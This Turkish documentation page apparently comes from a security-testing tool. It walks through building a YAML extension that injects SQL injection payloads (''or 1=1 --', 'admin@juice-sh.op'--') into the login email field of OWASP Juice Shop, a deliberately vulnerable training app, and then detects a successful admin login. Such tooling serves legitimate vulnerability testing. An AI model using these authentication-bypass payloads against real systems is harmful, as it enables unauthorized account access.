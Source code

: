 [link-app-examination]:     app-examination.md
[link-points]:              ../points/intro.md
[link-using-extension]:     ../using-extension.md
[link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section

[doc-collect-phase]:        ../phase-collect.md
[doc-match-phase]:          ../phase-match.md
[doc-modify-phase]:         ../phase-modify.md
[doc-generate-phase]:       ../phase-generate.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project


#   Değiştirici Uzantının Oluşturulması

Bu belgede açıklanan uzantı, gelen temel isteği değiştirerek içine bazı payload'lar enjekte edecektir. Bu payload'lar, hedef uygulamanın [“OWASP Juice Shop”][link-juice-shop] giriş formundaki SQLi güvenlik açığının sömürülmesine yol açabilir.
  
##  Hazırlıklar

Bir FAST uzantısı oluşturmadan önce şu adımların atılması şiddetle önerilir:
1.  Uzantıyı oluşturduğunuz [hedef uygulamanın davranışını inceleyin][link-app-examination].
2.  Bir uzantı için [nokta oluşturma prensiplerini okuyun][link-points].


##  Uzantının Oluşturulması

Uzantıyı tanımlayan bir dosya oluşturun (ör. `mod-extension.yaml`) ve gerekli bölümlerle doldurun:

1.  [**`meta-info` bölümü**][link-meta-info].

    Uzantının tespit etmeye çalışacağı güvenlik açığının açıklamasını hazırlayın.
    
    * zafiyet başlığı: `OWASP Juice Shop SQLi (mod extension)`
    * zafiyet açıklaması: `Demo of SQLi in OWASP Juice Shop (Admin Login)`
    * zafiyet türü: SQL enjeksiyonu
    * zafiyet tehdit seviyesi: yüksek
    
    Karşılık gelen `meta-info` bölümü aşağıdaki gibi görünmelidir:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'
    ```
    
2.  **`collect` bölümü, [Collect aşaması][doc-collect-phase]**.
    
    Giriş yapmaya çalışırken REST API `POST /rest/user/login` yöntemi çağrılır.
    
    Zafiyet testleri, POST isteğinde iletilen her veri parçası için aynı şekilde gerçekleştirileceğinden, API’ye gönderilen her bir oturum açma amaçlı temel istek için test istekleri oluşturmanıza gerek yoktur.
    
    Uzantıyı, API oturum açma isteğini aldığında bir kez çalışacak şekilde ayarlayın. Bunu yapmak için uzantıya benzersizlik koşuluna sahip Collect aşamasını ekleyin.

    API’ye oturum açmak için gönderilen `/rest/user/login` isteği şunlardan oluşur:

    1.  yolun `rest` değerine sahip ilk kısmı,
    2.  yolun `user` değerine sahip ikinci kısmı ve
    3.  `login` işlem yöntemi
    
    Bu değerlere atıfta bulunan karşılık gelen noktalar aşağıdakilerdir:

    1.  yolun ilk kısmı için `PATH_0_value`
    2.  yolun ikinci kısmı için `PATH_1_value`
    3.  `login` işlem yöntemi için `ACTION_NAME_value`
    
    Bu üç öğenin kombinasyonunun benzersiz olması gerektiği koşulunu eklerseniz, uzantı API’ye yapılan ilk `/rest/user/login` temel isteği için çalışacaktır (böyle bir istek benzersiz olarak kabul edilecek ve sonraki tüm oturum açma istekleri benzersiz olmayacaktır). 
    
    Uzantı YAML dosyasına karşılık gelen `collect` bölümünü ekleyin. 
    
    ```
    collect:
      - uniq:
        - [PATH_0_value, PATH_1_value, ACTION_NAME_value]
    ```

3.  **`match` bölümü, [Match aşaması][doc-match-phase]**.
    
    Oluşturduğumuz uzantı giriş formunda bulunan güvenlik açıklarını sömüreceği için, gelen temel isteğin gerçekten API’ye yapılan oturum açma isteği olup olmadığını kontrol etmek gereklidir.
    
    Uzantıyı yalnızca bir temel istek aşağıdaki URI’ı hedeflediğinde çalışacak şekilde yapılandırın: `/rest/user/login`. Alınan isteğin gerekli öğeleri içerip içermediğini kontrol eden Match aşamasını ekleyin. Bu, aşağıdaki `match` bölümü kullanılarak yapılabilir:

    ```
    match:
      - PATH_0_value: 'rest'
      - PATH_1_value: 'user'
      - ACTION_NAME_value: 'login'
    ```

4.  **`modify` bölümü, [Modify aşaması][doc-modify-phase]**.
    
    Aşağıdaki hedeflere ulaşmak için temel isteğin değiştirilmesinin gerektiğini varsayalım:
    * `Accept-Language` HTTP başlık değerini temizlemek (bu değer, zafiyetin tespit edilmesi için gerekli değildir).
    * `email` ve `password` parametrelerinin gerçek değerlerini nötr `dummy` değerleriyle değiştirmek.
    
    Yukarıda açıklanan hedefleri karşılayacak şekilde isteği değiştiren aşağıdaki `modify` bölümünü uzantıya ekleyin:
    
    ```
    modify:
      - "HEADER_ACCEPT-LANGUAGE_value": ""
      - "POST_JSON_DOC_HASH_email_value": "dummy"
      - "POST_JSON_DOC_HASH_password_value": "dummy"
    ```
    
    !!! info "İstek öğeleri açıklama söz dizimi"
        İstek verileri JSON formatında `<key: value>` çiftleri halinde tutulduğundan, `email` öğesinin değerine atıfta bulunan nokta yukarıda gösterildiği gibi görünecektir. `password` öğesinin değerine atıfta bulunan nokta benzer bir yapıya sahiptir.
        
        Noktaların nasıl oluşturulacağı hakkında ayrıntılı bilgi için bu [bağlantıya][link-points] gidin.
 
5.  **`generate` bölümü, [Generate aşaması][doc-generate-phase]**.

    Hedef uygulamadaki SQL enjeksiyonu güvenlik açığını sömürmek için, temel istekteki `email` parametresinin değerini değiştirmesi gereken iki payload olduğu bilinmektedir:
    * `'or 1=1 --`
    * `admin@juice-sh.op'--`
        
    !!! info "Payload'ın değiştirilmiş isteğe eklenmesi"
        Uzantı `modify` bölümünü içerdiğinden payload daha önce değiştirilmiş isteğe eklenecektir. Dolayısıyla ilk payload `email` alanına eklendikten sonra test istek verileri aşağıdaki gibi görünmelidir:
    
        ```
        {
            "email": "'or 1=1 --",
            "password":"dummy"
        }
        ```
    
        Seçilen payload'lar sayesinde oturum açmak için herhangi bir parola kullanılabildiğinden, Modify aşaması uygulandıktan sonra `dummy` değerine sahip olacak parola alanına payload eklemeye gerek yoktur.
    
        Yukarıda tartışılan gereksinimleri karşılayan test isteklerini oluşturacak `generate` bölümünü ekleyin.
    
        ```
        generate:
          - payload:
            - "'or 1=1 --"
            - "admin@juice-sh.op'--"
          - into: "POST_JSON_DOC_HASH_email_value"
          - method:
            - replace
        ```

6.  **`detect` bölümü, [Detect aşaması][doc-detect-phase]**.
    
    Aşağıdaki koşullar, kullanıcı kimlik doğrulamasının yönetici haklarıyla başarılı olduğunu gösterir:
    * Yanıt gövdesinde değeri `1` olan alışveriş sepeti tanımlayıcı parametresinin bulunması. Parametre JSON formatındadır ve aşağıdaki gibi görünmelidir:
    
        ```
        "bid":1
        ```
    
    * Yanıt gövdesinde `admin@juice-sh.op` değerine sahip kullanıcı e-posta parametresinin bulunması. Parametre JSON formatındadır ve aşağıdaki gibi görünmelidir:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    Yukarıda açıklanan koşullara göre saldırının başarılı olup olmadığını kontrol eden `detect` bölümünü ekleyin.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "Özel karakterlerin kaçışlanması"
    Dizelerdeki özel karakterleri kaçışlamayı unutmayın.

##  Uzantı Dosyası

Artık `mod-extension.yaml` dosyası, uzantının çalışması için gereken bölümlerin tam setini içeriyor. Dosya içeriğinin listesi aşağıdadır:

??? info "mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'

    collect:
      - uniq:
        - [PATH_0_value, PATH_1_value, ACTION_NAME_value]

    match:
      - PATH_0_value: 'rest'
      - PATH_1_value: 'user'
      - ACTION_NAME_value: 'login'

    modify:
      - "HEADER_ACCEPT-LANGUAGE_value": ""
      - "POST_JSON_DOC_HASH_email_value": "dummy"
      - "POST_JSON_DOC_HASH_password_value": "dummy"

    generate:
      - payload:
        - "'or 1=1 --"
        - "admin@juice-sh.op'--"
      - into: "POST_JSON_DOC_HASH_email_value"
      - method:
        - replace

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

##  Uzantının Kullanımı

Oluşturulan ifadeyi nasıl kullanacağınız hakkında ayrıntılı bilgi için [bu belgeyi][link-using-extension] okuyun.